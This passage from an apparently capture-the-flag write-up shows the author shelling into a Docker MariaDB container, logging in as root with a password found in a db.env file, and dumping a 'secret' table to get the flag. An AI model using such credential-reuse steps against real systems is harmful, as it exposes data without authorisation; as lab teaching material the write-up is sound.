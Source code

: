 Listing the running containers, we can find the container running the database:

```jsx
root@ubuntu-jammy:~/challenge# docker container ls
CONTAINER ID   IMAGE                    COMMAND                  CREATED       STATUS       PORTS                                 NAMES
89366d62e05c   mariadb:10.11.11-jammy   "docker-entrypoint.s…"   7 weeks ago   Up 4 hours   3306/tcp                              challenge-db-1
bb28d5969dd5   challenge-web            "docker-php-entrypoi…"   7 weeks ago   Up 4 hours   0.0.0.0:80->80/tcp, [::]:80->80/tcp   challenge-web-1
```

We can get a shell inside the database container as follows:

```jsx
root@ubuntu-jammy:~/challenge# docker container exec -it 8936 bash
```

Connecting to the database with the password we discovered in the `db.env` file and checking the databases, we can see that, apart from the `web` database we already had access to, we have access to one more database: `secret`.

```jsx
root@89366d62e05c:/# mysql -u root -pgG4i8NFNkcHBwUpd
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| secret             |
| sys                |
| web                |
+--------------------+
6 rows in set (0.004 sec)
```

Checking the tables for the `secret` database, there is one table: `secrets`.

```jsx
MariaDB [(none)]> use secret;
MariaDB [secret]> show tables;
+------------------+
| Tables_in_secret |
+------------------+
| secrets          |
+------------------+
1 row in set (0.000 sec)
```

Finally, fetching everything from the `secrets` table, we can discover the root flag and complete the room.

```jsx
MariaDB [secret]> select * from secrets;
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| THM{[REDACTED]}                       |
+---------------------------------------+
1 row in set (0.000 sec)
```

## Lateral Movement
<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
